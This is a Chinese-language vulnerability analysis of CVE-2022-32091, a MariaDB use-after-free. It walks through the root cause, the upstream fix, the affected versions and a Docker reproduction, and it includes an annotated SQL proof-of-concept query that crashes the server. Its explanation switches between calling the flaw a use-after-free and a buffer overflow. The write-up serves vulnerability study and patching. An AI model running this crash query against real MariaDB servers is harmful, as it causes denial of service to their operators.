



# CVE-2022-32091 CWE-416 MariaDB DoS via UAF

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CWE-416（Use After Free）：**指在软件中使用已经释放的内存区域的漏洞。当程序动态分配的内存被释放后，若未将指向该内存的指针设置为无效状态（如置为 NULL），后续代码仍可能错误地访问该指针，此时该内存可能已被重新分配给其他用途，导致不可预测的行为，如数据损坏、程序崩溃或代码执行等。这种漏洞通常源于内存管理不当，是严重的安全问题，易被攻击者利用来破坏程序的稳定性和安全性。

## 漏洞原理

 MariaDB 在语义分析阶段的表达式优化函数 `convert_const_to_int()` 中未正确处理包含聚合函数的常量表达式，导致查询计划生成时内存结构（如 JOIN_TAB）分配不足。在执行阶段，聚合逻辑根据错误的表达式标志访问了未分配的内存区域，触发了 `__interceptor_memset` 的 use-after-poison 报错，最终造成程序崩溃。

## 漏洞定位

分析 MariaDB 10.6.3：

在 sql\item_cmpfunc.cc 文件，第 303 行`convert_const_to_int`函数用于 MySQL 数据库的查询优化过程中，将常量表达式转换为整数类型。

其中的第 **321** 行存在一个判断条件：如果 `item` 可以在优化阶段求值（`can_eval_in_optimize()` 返回 `true`），则进行后续常量优化处理。但是这里只检查了表达式 `(*item)` 是否可以在优化阶段被计算出结果，但它**没有检查**这个表达式内部是否包含**聚合函数**（如 `AVG`, `SUM`）。这是**漏洞点**所在。

当遇到像 `COLLATION(AVG('x'))` 这样的特殊表达式时，虽然它的值是常量，但它本质上是一个聚合查询的一部分。修复前的代码会错误地将其优化掉，从而破坏了查询优化器内部的状态一致性，最终导致了后续处理流程中的内存分配错误和服务器崩溃。

```cpp
// sql\item_cmpfunc.cc 
// ***** 321 行 ********** 检查了表达式是否可以在优化阶段被计算出结果 ********** 漏洞点 ****************************
if ((*item)->can_eval_in_optimize())
  {
    TABLE *table= field->table;
    MY_BITMAP *old_maps[2] = { NULL, NULL };
    ulonglong UNINIT_VAR(orig_field_val); /* original field value if valid */
    bool save_field_value;

    /* table->read_set may not be set if we come here from a CREATE TABLE */
    if (table && table->read_set)
      dbug_tmp_use_all_columns(table, old_maps,
                               &table->read_set, &table->write_set);
	// ... ...
}
```

## 漏洞修复

在判断语句中增加判断语句，**只有当表达式不包含聚合函数时**，才能继续执行常量优化。`with_sum_func()` 会返回 `true` 如果表达式带有聚合函数标志，`!` 取反后整个 `if` 判断就会为假，从而跳过危险的优化代码块。

```cpp
 /*
    Replace (*item) with its value if the item can be computed.

    Do not replace items that contain aggregate functions:
    There can be such items that are constants, e.g. COLLATION(AVG(123)),
    but this function is called at Name Resolution phase.
    Removing aggregate functions may confuse query plan generation code, e.g.
    the optimizer might conclude that the query doesn't need to do grouping
    at all.
  */
  if ((*item)->can_eval_in_optimize() &&
      // ********** 关键修改 ********* 增加判断是否包含聚合函数 *************
      !(*item)->with_sum_func())
```

## 影响范围

**影响版本：**MariaDB :

- 10.3.0 to 10.3.35
- 10.4.0 to 10.4.25
- 10.5.0 to 10.5.16
- 10.6.0 to 10.6.8
- 10.7.0 to 10.7.5
- 10.8.0 to 10.8.4
- 10.9.0 to 10.9.2

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中存在 PoC 文件 CVE-2022-32091-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-32091-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2022-32091-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到 UAF 发生导致 DoS，且问题出在`__interceptor_memset`中，和漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
-- 创建 t1 表，包含 a 的 BIGINT 类型的列，后接一个子查询，用于为表 t1 提供初始数据
-- a 列的值分别为 1 和 0（false 转换）
CREATE TABLE t1 (a BIGINT) AS 
	-- 返回一个值为 1 的结果集，别名为 v3
	SELECT 1 AS v3 
		-- 合并前后两个结果集
		UNION 
			-- 返回一个值为 FALSE 的结果集
			SELECT FALSE ;
		
-- 检查 t1 中的 a 列的值是否在由 COLLATION (AVG ('x')) 返回的结果集中，并去重，返回布尔值	
SELECT DISTINCT a IN ( 
    -- 返回表达式的校对规则，接收参数应为字符串表达式
    COLLATION (
     	-- 计算平均值，x 是字符串常量会转换为 0，结果为 0
     	AVG ('x')
    )
) FROM t1 ;

```

 在存在漏洞的版本中，查询解析器一方面将 `AVG('x')` 识别为一个**常量**，并准备对其进行优化；但另一方面，代表 `COLLATION()` 的上层项目仍然保留着一个内部标志，记为“包含一个聚合函数”。这就制造了一个**不一致的状态**：一个被当作常量的东西，同时又被标记为聚合函数。

当 MariaDB 看到 `SELECT DISTINCT` 时，它需要对结果进行去重，这会激活其内部复杂的分组和优化逻辑。当优化器遇到上面那个“不一致”的对象时，根据错误的标志信息，为后续操作（在内部创建一个临时表来存放和处理去重结果）分配了**大小不正确的内存空间**。

当服务器向这个过小的数组写入数据时，发生了**缓冲区溢出**，数据被写到了数组边界之外的内存区域。这次缓冲区溢出，恰好覆盖了旁边另一个不相关对象（比如我们日志里看到的 `Duplicate_weedout_picker` 对象）的**元数据**，其中就包括了指向其**虚函数表 (vtable) 的指针 (vptr)**。

## 参考链接

[NVD - CVE-2022-32091](https://nvd.nist.gov/vuln/detail/CVE-2022-32091)

[[MDEV-23809\] Server crash in JOIN_CACHE::free or in copy_fields, ASAN use-after-poison in JOIN::make_aggr_tables_info - Jira](https://jira.mariadb.org/browse/MDEV-23809)

[MDEV-23809: Server crash in JOIN_CACHE::free or ... · MariaDB/server@2cd98c9](https://github.com/MariaDB/server/commit/2cd98c95dee7ae77e6280b4e047a2ebec00b5442#diff-1d0eeab9c76ca431af1f61a23ffd0cb93f4a38709e16005c0aa636ec9a6c313d)

[server/sql/item_cmpfunc.cc at mariadb-10.6.9 · MariaDB/server](https://github.com/MariaDB/server/blob/mariadb-10.6.9/sql/item_cmpfunc.cc)
